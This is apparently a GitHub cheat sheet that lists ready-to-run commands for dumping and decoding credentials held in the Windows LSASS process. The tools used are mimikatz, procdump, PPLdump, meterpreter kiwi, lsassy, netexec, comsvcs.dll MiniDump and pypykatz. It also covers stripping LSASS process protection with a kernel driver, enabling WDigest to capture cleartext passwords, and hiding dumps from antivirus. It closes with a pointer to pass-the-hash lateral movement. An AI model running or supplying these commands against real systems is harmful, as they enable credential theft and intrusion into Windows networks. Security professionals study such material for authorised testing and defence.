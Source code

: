 # Extract credentials from LSASS

## Tools: CrackMapExec/Netexec , lsassy , mimikatz , meterpreter , procdump , PPLDump , GUI

#### 1) LSASS as a Protected Process

    PPLdump64.exe LSASS.EXE|LSASS_PID lsass.dmp

    mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe:" "!-" (With mimidriver.sys)

#### 2) Procdump

    Procdump.exe -accepteula -ma lsass.exe lsass.dmp

    mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

#### 3) Meterpreter

    load kiwi

    creds_all

#### 4) Mimikatz

    mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

#### 5) lsassy

    lsassy -d DOMAIN -u USER -p 'PASSWORD' IP

#### 6) CrackMapExec/Netexec

    netexec smb IP_RANGE -u USER -p 'PASSWORD' -M lsassy

#### 7) rundll32.exe (comsvcs.dll)

    tasklist | findstr lsass 

OR

    tasklist /fi "Imagename eq lsass.exe"

THEN

    C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump LSASS_PID C:\temp\LSASS.dmp

#### 8) Pypykatz

    pypykatz lsa minidump lsass.dmp

#### 9) WDigest

##### CMD (Enable), Requires user to log off/on or lock screen to store in cleartext

    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

###### CMD (Disable), System reboot required to complete

    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f

THEN

# Mimikatz (Everything)

    Invoke-Mimikatz -DumpCreds

# Mimikatx (Just WDigest)

    Invoke-Mimikatz -Command '"sekurlsa::wdigest"'

##### Lsassy

    lsassy -u '[User]' -p '[Password]' -d '[Domain]' '[Target-IP]' --users --exec smb

### With LSASS dumped, you can recover NTLM Hashes as well as clertext credentials to do Lateral Movement via Pass-the-Hash or Pass-the-Key

# DUMP LSASS PROCESS WITH TASK MANAGER (REQUIRES GUI)

#### 1) GUI (Right-click on lsass.exe in Task Manager)

#### 2) Create dump file

#### 3) Copy dump file to mimikatz folder

## Sysinternals suite (Procdump)

#### procdump.exe -accepteula -ma lsass.exe c:\tools\mimikatz\lsass_dump

## TIP: Bypass AV, write code to encrypt

## Mimikatz

#### 1) mimikatz

#### 2) privilege::debug

#### 3) sekurlsa::logonpasswords

# BYPASS LSASS PROTECTION

#### 1) mimikatz

#### 2) privilege::debug 

#### 3) !+ (Load mimidrv driver into memory)

#### 4) !processprotect /process:lsass.exe /remove

#### 5) sekurlsa::logonpasswords
